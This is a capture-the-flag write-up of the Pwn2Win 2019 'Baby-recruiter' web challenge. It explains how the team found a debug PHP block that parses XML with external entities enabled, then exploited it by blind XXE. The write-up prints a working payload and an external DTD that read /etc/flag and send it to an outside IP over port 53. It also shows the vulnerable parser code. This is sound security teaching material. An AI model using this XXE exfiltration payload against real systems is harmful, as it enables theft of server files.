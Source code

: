# Pwn2Win2019_Baby-recruiter - Write-up
Web challenge solved during Pwn2Win 2019 CTF (by Ganesh - USP)

To see all the challenges we've solved check the [Ganesh Github repo](https://github.com/GANESH-ICMC/CTF-Writeups/tree/master/Pwn2Win-2019).

## Challenge description
```
We found a Curriculum service from HARPA. Well, what do you think about pwn it? :)

P.S.: the flag is not in default format, so add CTF-BR{} when you find it (leet speak).

```

## Write-up
Firstly, the challenge gave us three files: Dockerfile, index.php e iptables.sh (there was also a setup.sh but it wasn't useful).
By looking at the Dockerfile we noticed that:
1. It installed a version of prince that might have a vulnerability, such as [this one](https://www.corben.io/XSS-to-XXE-in-Prince/), but we were wrong. It didn't;
2. The location of the flag (/etc/flag);
3. The setup/configuration of iptables.

``` sh
# there was some other stuff here, but we don't need it now
RUN wget https://www.princexml.com/download/prince_12.5-1_ubuntu18.04_amd64.deb

RUN echo -n 'this_is_not_the_flag' > /etc/flag

RUN chmod +x iptables.sh && ./iptables.sh
```
Also, after analizing the iptables.sh file, we noticed that it was only possible to establish new connections through port 53 (used for DNS) and port 80. However, in port 80 the server only responded to already established connections.
``` sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$IPT -A OUTPUT -p udp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p udp --sport 53 -m state --state ESTABLISHED     -j ACCEPT
$IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A INPUT  -p tcp --sport 53 -m state --state ESTABLISHED     -j ACCEPT

echo "Allowing new and established incoming connections to port 80"
$IPT -A INPUT  -p tcp -m multiport --dports 80 -m state --state NEW,ESTABLISHED -j ACCEPT
$IPT -A OUTPUT -p tcp -m multiport --sports 80 -m state --state ESTABLISHED     -j ACCEPT

```

After trying some stuff, we noticed that in the index.php file, there was uncommented code used for debug :
``` php
/* debug */
$dom = new DOMDocument();
$dom->loadXML($content, LIBXML_NOENT | LIBXML_DTDLOAD);
$info = simplexml_import_dom($dom);
```
So, we thought that we could try a **Blind XXE Injection**! The *$content* came from a *textarea* in the index.php page, so we just had to write our payload there and send it to the server. However, the server would only respond to reqs at port 53! Thus, we had to disable the DNS resolver in our machine - at port 53 - with `sudo systemctl stop systemd-resolved` and run a local server there.
Finaly, we send the payload:
``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://143.107.3.131:53/host.dtd">
<data>&send;</data>
```

And the server asked us for this .dtd file:
``` xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://143.107.3.131:53/collect/%file;'>">
%eval;
``` 

And this gave us the **flag**!

*Another way of solving it is available at [SigFlag Blog](https://www.sigflag.at/blog/2019/writeup-pwn2win-baby-recruiter/
)*
